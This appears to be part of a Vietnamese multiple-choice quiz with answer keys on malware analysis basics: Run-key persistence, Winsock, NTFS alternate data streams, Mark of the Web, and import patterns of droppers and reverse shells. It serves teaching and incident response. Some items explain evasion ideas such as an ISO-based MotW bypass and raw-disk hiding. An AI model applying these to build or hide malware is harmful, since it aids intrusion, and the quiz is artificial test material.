**Câu 5.** Registry key nào thường được malware sử dụng nhất để đạt được persistence (tự khởi động)?

- [x] `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- [ ] `HKLM\SYSTEM\CurrentControlSet\Services`
- [ ] `HKEY_CLASSES_ROOT\CLSID`
- [ ] `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion`

??? info "Giải thích"
    Run key là vị trí persistence phổ biến nhất. `HKCU\...\Run` đặc biệt được ưa chuộng vì không cần quyền Administrator để ghi vào.

---

**Câu 6.** Hàm nào **bắt buộc phải gọi đầu tiên** trước khi sử dụng bất kỳ hàm Winsock nào khác?

- [x] `WSAStartup`
- [ ] `socket`
- [ ] `connect`
- [ ] `WSACleanup`

??? info "Giải thích"
    `WSAStartup` khởi tạo thư viện Winsock và cấp phát tài nguyên cần thiết. Không gọi hàm này trước thì tất cả các hàm mạng khác sẽ thất bại.

---

**Câu 7.** Alternate Data Streams (ADS) tồn tại trên hệ thống file nào?

- [x] NTFS
- [ ] FAT32
- [ ] exFAT
- [ ] ext4

??? info "Giải thích"
    ADS là tính năng đặc thù của **NTFS**. FAT32 và exFAT không hỗ trợ ADS — đây là lý do tại sao copy file từ NTFS sang FAT32 sẽ mất các ADS.

---

**Câu 8.** `ZoneId=4` trong file `Zone.Identifier` có nghĩa là gì?

- [x] File được tải từ Internet — Mark of the Web được áp dụng
- [ ] File từ máy tính cục bộ
- [ ] File từ mạng nội bộ
- [ ] File từ trang web tin cậy

??? info "Giải thích"
    ZoneId=4 = Internet zone → Windows sẽ hiển thị cảnh báo Protected View hoặc SmartScreen khi mở file này. Đây chính là cơ chế MotW.

---

**Câu 9.** Hàm `MapViewOfFile` trả về gì?

- [x] Con trỏ đến base address của vùng nhớ chứa file đã được map
- [ ] Handle đến file đã được mở
- [ ] Số byte đã được đọc từ file
- [ ] Handle đến mapping object

??? info "Giải thích"
    `CreateFileMapping` tạo mapping object và trả về handle. `MapViewOfFile` dùng handle đó và trả về **con trỏ** đến vùng nhớ — từ đây có thể đọc/ghi trực tiếp như thao tác với bộ nhớ thông thường.

---

**Câu 10.** `HKEY_LOCAL_MACHINE` (HKLM) khác `HKEY_CURRENT_USER` (HKCU) ở điểm gì?

- [x] HKLM lưu cấu hình áp dụng cho toàn máy (tất cả user), HKCU chỉ cho user đang đăng nhập
- [ ] HKLM chỉ đọc được, HKCU có thể ghi
- [ ] HKLM dành cho phần cứng, HKCU dành cho phần mềm
- [ ] HKLM lưu trong RAM, HKCU lưu trên đĩa

??? info "Giải thích"
    HKLM = cài đặt toàn máy, cần quyền Admin để ghi. HKCU = cài đặt riêng cho từng user, user thường có thể ghi. Malware thích HKCU vì không cần leo quyền.

---

### Tầng 2 — Hiểu & Phân Tích

---

**Câu 11.** Tại sao malware thường dùng `CreateFileMapping` + `MapViewOfFile` thay vì `CreateFile` + `ReadFile` để load PE file?

- [x] Để tự load và thực thi PE file mà không qua Windows Loader, né tránh các hook đặt tại loader
- [ ] Vì `MapViewOfFile` nhanh hơn `ReadFile` về mặt hiệu năng
- [ ] Vì `ReadFile` không thể đọc file PE
- [ ] Vì `CreateFileMapping` cho phép đọc file đang bị lock bởi process khác

??? info "Giải thích"
    Kỹ thuật này cho phép malware tự parse PE header, tự fix relocation — thực thi code mà **không gọi Windows Loader**. Các security tool hook vào loader sẽ bị bypass hoàn toàn.

---

**Câu 12.** Malware dùng `\\.\PhysicalDisk1` thay vì ghi file vào `C:\` để đạt được mục đích gì?

- [x] Ghi/đọc dữ liệu vào unallocated sector mà không tạo file nào, né tránh file-based antivirus scanning
- [ ] Ghi dữ liệu nhanh hơn vì bỏ qua filesystem cache
- [ ] Truy cập file bị ẩn (hidden) mà Windows Explorer không hiển thị
- [ ] Vượt qua giới hạn MAX_PATH của Windows

??? info "Giải thích"
    `\\.\` (Win32 Device Namespace) truy cập thẳng vào thiết bị vật lý, bỏ qua filesystem. Malware có thể giấu dữ liệu ở unallocated sector — không tạo file nào → file-based antivirus không quét được.

---

**Câu 13.** So sánh server-side và client-side socket flow. Phía nào cần gọi `bind()` và tại sao?

- [x] Server cần `bind()` để gắn vào một port cụ thể để client biết địa chỉ kết nối đến; client không cần vì OS tự cấp port ngẫu nhiên
- [ ] Cả hai đều cần `bind()` để đăng ký với OS
- [ ] Client cần `bind()` để xác định địa chỉ nguồn; server không cần
- [ ] Chỉ UDP socket mới cần `bind()`, TCP không cần

??? info "Giải thích"
    Server phải `bind()` để "chiếm" một port xác định — client cần biết port này để kết nối. Client không cần bind vì OS tự assign ephemeral port cho outbound connection.

---

**Câu 14.** Một analyst thấy malware import `InternetOpen`, `InternetOpenURL`, `InternetReadFile`, rồi `CreateFile`, `WriteFile`. Kịch bản nào phù hợp nhất?

- [x] Malware download một file từ URL về và ghi vào đĩa (dropper)
- [ ] Malware upload file từ máy nạn nhân lên server
- [ ] Malware tạo kết nối raw TCP để giao tiếp với C2
- [ ] Malware kiểm tra kết nối Internet trước khi hoạt động

??? info "Giải thích"
    `InternetOpen` → init, `InternetOpenURL` → kết nối URL, `InternetReadFile` → đọc/download data, `CreateFile` + `WriteFile` → lưu vào đĩa. Đây là pattern cổ điển của **dropper** — tải payload về và lưu xuống.

---

**Câu 15.** Tại sao `HKCU\...\Run` lại nguy hiểm hơn `HKLM\...\Run` từ góc độ phòng thủ?

- [x] Không cần quyền Administrator để ghi vào HKCU, nên malware chạy với user thường vẫn đặt được persistence
- [ ] HKCU được thực thi trước HKLM nên malware khởi động sớm hơn
- [ ] Antivirus không quét HKCU trong registry scan
- [ ] HKCU không bị Autoruns kiểm tra

??? info "Giải thích"
    Nguyên tắc least privilege — user thường có full control trên HKCU của chính mình. Malware không cần leo quyền Admin vẫn có thể persistence qua HKCU Run key.

---

**Câu 16.** Khi phân tích một file `.iso` tải từ Internet, bạn mount và chạy file bên trong. Tại sao cảnh báo SmartScreen/Protected View có thể không xuất hiện?

- [x] File bên trong `.iso` không kế thừa MotW từ container, nên không có Zone.Identifier ADS
- [ ] `.iso` file không thể chứa file thực thi
- [ ] SmartScreen chỉ kiểm tra file `.exe` không kiểm tra file trong container
- [ ] Zone.Identifier bị xóa khi mount ISO

??? info "Giải thích"
    Đây là kỹ thuật **MotW bypass** phổ biến. Khi file được giải nén/mount từ container (ISO, ZIP có mật khẩu...), Windows không tự động propagate Zone.Identifier vào file bên trong → không có MotW → không có cảnh báo.

---

**Câu 17.** Suffix `Ex` trong tên hàm Windows API (ví dụ: `CreateWindowEx`) có ý nghĩa gì?

- [x] Extended version — Microsoft cập nhật hàm gốc nhưng giữ lại hàm cũ để tương thích ngược, hàm mới có thêm suffix `Ex`
- [ ] Hàm chỉ chạy được trên Windows 64-bit
- [ ] Hàm được export từ DLL bên ngoài (external)
- [ ] Hàm thuộc về Native API (ntdll.dll)

??? info "Giải thích"
    `Ex` = Extended. Khi Microsoft nâng cấp một hàm không tương thích ngược, họ giữ hàm cũ và tạo phiên bản mới có thêm tham số, đặt tên với suffix `Ex`. Nếu nâng cấp hai lần: `ExEx`.

---

### Tầng 3 — Vận dụng (Tình huống thực tế)

---

**Câu 18.** Bạn đang phân tích một sample malware và thấy chuỗi import sau: `WSAStartup` → `socket` → `connect` → `CreateProcess` (với `cmd.exe`) → `send` → `recv`. Bạn kết luận đây là loại malware gì và hoạt động như thế nào?

- [x] Reverse shell — malware kết nối chủ động ra ngoài đến C2, tạo cmd.exe với I/O redirect vào socket để attacker điều khiển từ xa
- [ ] Bind shell — malware mở port chờ attacker kết nối vào
- [ ] Dropper — malware tải payload từ C2 về và thực thi
- [ ] Keylogger — malware ghi lại phím bấm và gửi về C2

??? info "Giải thích"
    Pattern `socket` + `connect` (chủ động ra ngoài) + `CreateProcess(cmd.exe)` = **reverse shell**. Bind shell sẽ dùng `bind` + `listen` + `accept` thay vì `connect`. Reverse shell bypass firewall outbound dễ dàng hơn.

---

**Câu 19.** Trong quá trình incident response, bạn tìm thấy một file `svchost.txt` trên máy nạn nhân. Khi chạy `dir` thấy kích thước file chỉ có 0 byte. Bạn nghi ngờ có gì ẩn trong file này. Lệnh PowerShell nào giúp xác minh nghi ngờ đó?

- [x] `Get-Item .\svchost.txt -Stream *`
- [ ] `Get-Content .\svchost.txt`
- [ ] `dir /a .\svchost.txt`
- [ ] `Get-FileHash .\svchost.txt`

??? info "Giải thích"
    `Get-Item -Stream *` liệt kê **tất cả các data stream** của file, kể cả ADS ẩn. `Get-Content` chỉ đọc stream mặc định `$DATA`. `dir /R` cũng có thể hiện ADS nhưng ít chi tiết hơn PowerShell.

---

**Câu 20.** Bạn phân tích một malware dropper và thấy nó gọi `RegOpenKeyEx` với path `SOFTWARE\Microsoft\Windows\CurrentVersion\Run`, sau đó `RegSetValueEx` với value name `"WindowsUpdate"` và data là đường dẫn đến file malware. Bước tiếp theo trong phân tích, bạn nên làm gì?

- [x] Ghi lại registry key/value này như một IOC (host-based indicator), kiểm tra xem file được trỏ đến có tồn tại không, và tìm thêm persistence mechanism khác có thể bị bỏ sót
- [ ] Xóa ngay value này khỏi registry để ngăn malware khởi động lại
- [ ] Kết luận đây là toàn bộ persistence mechanism và dừng phân tích
- [ ] Báo cáo đây là false positive vì "WindowsUpdate" là tên hợp lệ của Windows

??? info "Giải thích"
    Analyst cần: (1) record IOC để viết detection rule, (2) verify file payload còn đó không, (3) tiếp tục tìm persistence khác (malware thường dùng nhiều cơ chế). Xóa ngay là sai vì có thể mất bằng chứng. "WindowsUpdate" là tên giả mạo — Windows Update thật không dùng Run key.

---

**Câu 21.** Trong dynamic analysis, malware không có network activity nào rõ ràng khi chạy trong sandbox. Nhưng khi đọc import table, bạn thấy `socket`, `connect`, `send`. Điều gì có thể giải thích hiện tượng này và bạn sẽ làm gì tiếp theo?

- [x] Malware có thể kiểm tra môi trường (anti-sandbox) hoặc C2 server đã offline; thử chạy với INetSim/FakeNet-NG để simulate C2 response và quan sát behavior
- [ ] Import table bị phân tích sai; malware không thực sự dùng các hàm này
- [ ] Malware dùng encrypted channel nên traffic không visible; cần decrypt pcap
- [ ] Sandbox không monitor Winsock; cần monitor ở kernel level

??? info "Giải thích"
    Nhiều malware kiểm tra DNS resolution, thử kết nối C2, nếu C2 offline thì ngủ im hoặc tự xóa. Dùng **FakeNet-NG** hoặc **INetSim** để giả lập internet service, trick malware "nghĩ" rằng C2 đang online và quan sát behavior.

---

*Kết thúc Phần A. Phần B sẽ bao gồm: DLLs, Processes, Threads, Mutexes, Services, COM, Kernel vs User Mode, Native API, Syscalls, và API Hashing.*
